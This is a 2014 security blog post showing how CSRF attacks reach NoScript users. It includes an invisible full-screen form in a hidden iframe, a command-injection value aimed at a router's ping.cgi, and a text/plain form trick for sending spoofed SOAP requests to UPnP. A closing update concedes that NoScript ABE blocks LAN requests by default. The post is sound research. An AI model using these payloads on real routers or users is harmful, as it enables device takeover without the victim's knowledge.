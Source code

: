 ```yaml
---
layout: post
title: "Exploiting CSRF under NoScript Conditions "
---
```


(Note: this is a cross-post of an article I wrote for Metasploit's blog. The original post can be found [here](https://community.rapid7.com/community/metasploit/blog/2014/04/15/exploiting-csrf-without-javascript).)

CSRFs - or [Cross-Site Request Forgery](https://www.owasp.org/index.php/CSRF) vulnerabilities - occur when a server accepts requests that can be “spoofed” from a site running on a different domain. The attack goes something like this: you, as the victim, are logged in to some web site, like your router configuration page, and have a valid session token. An attacker gets you to click on a link that sends commands to that web site on your behalf, without your knowledge.
 
These vulnerabilities can be especially handy to attackers when trying to exploit something on the the victim's LAN. The most common way to spoof requests is just by sending an [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest) (XHR) from a site under the attacker’s control: all browsers will let you send GET/POST with arbitrary data and content-type to a cross-domain endpoint. Of course, due to the [Same Origin Policy](http://www.w3.org/Security/wiki/Same_Origin_Policy) (SOP), this is a “fire and forget” operation. There is usually no way to read the contents of the cross domain response:
 
<pre><code class="javascript">var xhr = new XMLHttpRequest;
xhr.open('POST', 'http://192.168.1.1/ping.cgi', false);
xhr.send('?pingstr='+encodeURIComponent('& echo abc123 > /tmp/bin; chmod ..'));</code></pre>

The usual advice is to disable Javascript on untrusted sites, either through whitelisting or blacklisting, and usually using something like Mozilla's [NoScript add-on](https://addons.mozilla.org/en-US/firefox/addon/noscript/). Does this mean NoScript users are immune to CSRF attacks? After all, without Javascript, an arbitrary domain can’t just fire off malicious XMLHttpRequests - they don't trigger when Javascript is disabled.
 
#### How does NoScript help prevent CSRF?
 
Unfortunately, NoScript doesn’t actually do much to prevent CSRF. The obvious example is an `<img>` tag, which does a GET request on the `src` attribute, regardless of what domain is used. But POST routes are often more desirable, since they are supposed to be used for mutating server state.
 
The typical way an attacker will handle `POST` CSRFs on NoScript users is with a form that submits data to a cross domain endpoint, and get the user to unknowingly click it. The submit button is styled to take up the entire screen, and voila! You have a 1-click exploit:
 
<pre><code class="html">&lt;form method='post' action='http://192.168.1.1/ping.cgi' target='f'&gt;
  &lt;input type='hidden' name=&quot;pingstr&quot; value=&quot;&amp; echo abc12312...&quot; /&gt;
  &lt;input type='submit' value=&quot;&quot; style=&quot;position:absolute;position:fixed;top:0;left:0;width:1200px;height:1200px;background:#fff;opacity:0;&quot; /&gt;
&lt;/form&gt;
&lt;iframe name='f' id='f' style='position:absolute;left:-500px;top:-500px;height:1px;width:1px'&gt;&lt;/iframe&gt;</code></pre>
 
So when the user clicks anywhere on the page, they submit the invisible form. The form’s target attribute is set to a hidden iframe, so that the unknown form submission does not even navigate the top-level page, so the user has no idea that a request just happened (this is handy for phishing).
 
Note: if the pingstr parameter looks familiar, you might have seen it in `exploit/linux/http/linksys_wrt110_cmd_exec`. Many of [Metasploit](https://metasploit.com)'s router exploits can be triggered via CSRF.
 
Now, how to get the user to click the page? There are a million ways to do this, but one easy and reliable trick is to just put a “Redirecting…” link at the top of the page. Eventually the user will get tired of waiting for the redirect to load and will click the link (I know I do this at least).
 
#### What about non-HTTP protocols?
 
It is known that the UPnP interfaces in certain routers will take SOAP requests that can be easily spoofed, which can be abused to forward internal ports from the LAN on to the Internet. With AJAX, arbitrary data can be inserted into a POST request, by calling ajax.send(data).
 
But if you try and use the <form> vector, you will find that you cannot send arbitrary data after the request headers. You can set enctype="text/plain" on the form, which prevent the parameters from being formatted and URL encoded:
 
<pre><code class="html">&lt;form method='post' enctype='text/plain' action='http://192.168.1.1/upnp.cgi'&gt;
  &lt;input type='hidden' name=&quot;blah&quot; value=&quot;&lt;SOAP document...&gt;&quot; /&gt;
  &lt;input type='submit' value=&quot;submit&quot; style=&quot;position:fixed;top:0;left:0;width:1200px;height:1200px;background:#000;opacity:0;&quot; /&gt;
&lt;/form&gt;</code></pre>

But there will always be some leading garbage on the request (in this instance, the "blah=" string):
 
    POST /ping.cgi HTTP/1.1
    Host: 192.168.0.5:5000
    Connection: keep-alive
    Content-Length: 23
    Cache-Control: max-age=0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Origin: http://attacker.com
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/33.0.1750.152 Safari/537.36
    Content-Type: text/plain
    Referer: http://attacker.com
    Accept-Encoding: gzip,deflate,sdch
    Accept-Language: en-US,en;q=0.8

    blah=<SOAP document...>
 
Depending on the protocol, you can often find ways to turn that leading garbage into something that is ignored by the server, like an XML comment:
 
    <input type='hidden' name="<!--" value="--><SOAP document...>" />

    POST /ping.cgi HTTP/1.1
    Host: 192.168.0.5:5000
    Connection: keep-alive
    Content-Length: 26
    Cache-Control: max-age=0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Origin: http://attacker.com
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/33.0.1750.152 Safari/537.36
    Content-Type: text/plain
    Referer: http://fiddle.jshell.net/_display/
    Accept-Encoding: gzip,deflate,sdch
    Accept-Language: en-US,en;q=0.8
    
    <!--=--><SOAP document...>

Finally, one interesting fact of `<noscript>` CSRF exploits is that they can often be triggered straight from the user’s web-based email. Most webmail applications will alert the user when the submit button is clicked, often with a message along the lines of “You are submitting data to an external page, are you sure you want to do this?”. One accidental “OK”, and the victim’s router/webapp/internal device is owned.
 
Now, how can a NoScript user prevent this from happening? The short answer for now is "don't click anything on the Internet". Not terribly practical. Of course, you can inspect the source of every page you visit, just like you already inspect the source code of every software application you intend to install. Right, nobody actually does that -- Javascript obfuscation alone makes this basically impossible. So, to reiterate in TL;DR format:
 
#### In 2014, default NoScript techniques do not actually protect you against CSRF.
 
Sorry for maybe ruining your day. If you have any advice as to how to practically resolve this problem, feel free to comment below.
 
Update: [NoScript ABE](http://noscript.net/abe/) allows you to blacklist certain types of requests
 
Big thanks to commentor @ma1 for pointing out the ABE component of NoScript, available in NoScript Preferences -> Advanced -> ABE. ABE allows you to define which origins are allowed to communicate to one another. By default, requests from non-LAN sites to a host on the LAN are blocked. My testing on this issue was flawed and my initial results were incorrect. It would be interesting to see how ABE stands up to a [DNS rebinding attack](https://en.wikipedia.org/wiki/DNS_rebinding) into a LAN. However, CSRFs are still very possible in noscript across other (non-LAN) origins, or from a "rogue" LAN host into another LAN host, unless you explicitly create rules to prevent this.
